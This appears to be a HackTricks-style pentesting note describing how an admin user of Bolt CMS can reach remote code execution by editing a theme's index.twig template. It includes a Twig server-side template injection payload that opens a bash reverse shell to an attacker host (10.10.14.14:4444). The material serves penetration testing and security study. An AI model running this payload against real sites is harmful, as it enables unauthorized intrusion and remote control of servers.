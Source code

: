 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

- Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  - Check the value of theme

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Select `File management` -> `View & edit templates`
  - Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  - In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
- Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  - And save changes

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Clear the cache in `Maintenance` -> `Clear the cache`
- Access again the page as a regular user, and the payload should be executed

{{#include ../../banners/hacktricks-training.md}}
